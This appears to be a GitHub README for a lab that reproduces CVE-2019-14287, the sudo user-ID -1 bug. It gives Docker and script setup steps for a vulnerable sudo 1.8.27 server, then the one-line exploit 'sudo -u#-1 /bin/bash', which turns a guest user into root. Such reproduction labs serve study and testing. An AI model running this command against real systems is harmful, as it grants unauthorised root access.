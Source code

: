 # CVE-2019-14287

## About
<https://nvd.nist.gov/vuln/detail/CVE-2019-14287>


## PoC
<https://www.sudo.ws/alerts/minus_1_uid.html>


## Environment used

* Ubuntu 18.04.3 LTS
* [Sudo 1.8.27](https://www.sudo.ws/dist/sudo-1.8.27.tar.gz)


## Reproduction

* Server
    - Docker:
        ```shell script
        cd Docker\ version/ && sudo docker build -t cve-2019-14287 .
        bash start.sh
        bash stop.sh  
        ```
      
    - Script:
        ```shell script
        cd Script\ version && bash installation.sh
        ```

* Terminal:
    ```shell script
    ssh <Server IP> -l guest -p 8022
    sudo -u#-1 /bin/bash 
    ```
    The result is the user *guest* as escalated to *root*.
